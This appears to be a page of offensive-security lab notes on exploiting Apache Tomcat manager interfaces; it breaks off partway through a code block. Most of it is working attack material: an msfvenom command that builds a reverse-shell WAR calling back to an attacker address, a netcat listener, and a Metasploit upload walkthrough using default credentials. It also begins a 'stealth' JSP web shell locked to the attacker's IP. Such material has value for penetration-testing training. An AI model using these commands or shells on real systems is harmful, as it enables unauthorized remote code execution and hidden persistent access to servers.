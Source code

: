 
### Advanced WAR Exploitation Techniques

#### Msfvenom Reverse Shell WAR Generation
```bash
# Generate malicious WAR with reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=10.10.14.15 \
  LPORT=4443 \
  -f war > reverse_shell.war

# Payload characteristics:
# - Payload size: ~1098 bytes
# - Automatic JSP execution on deployment
# - Immediate reverse shell on application access

# Setup listener for reverse shell
nc -lnvp 4443

# Deploy WAR file via manager interface
# Access application URL to trigger reverse shell
# Expected connection:
# connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224
```

#### Metasploit Automated WAR Upload
```bash
# Use Metasploit module for automated WAR deployment
msfconsole

use multi/http/tomcat_mgr_upload
set RHOSTS 10.129.201.58
set RPORT 8180
set VHOST web01.inlanefreight.local
set HttpUsername tomcat
set HttpPassword admin
set LHOST 10.10.14.15
set LPORT 4444

# Execute automated exploitation
run

# Module automatically:
# 1. Authenticates to manager interface
# 2. Generates malicious WAR file
# 3. Uploads and deploys application
# 4. Establishes reverse shell connection
```

### Web Shell Operational Security

#### Stealth Web Shell Enhancements
```java
<%@ page import="java.util.*,java.io.*,java.security.*"%>
<%
// Stealth JSP Shell with IP restrictions and authentication
String allowedIP = "10.10.14.15"; // Restrict to attacker IP
String authKey = "c7f3d8e9a2b1"; // Simple authentication key

String clientIP = request.getRemoteAddr();
String key = request.getParameter("key");

// IP and authentication validation
if (!allowedIP.equals(clientIP) || !authKey.equals(key)) {
```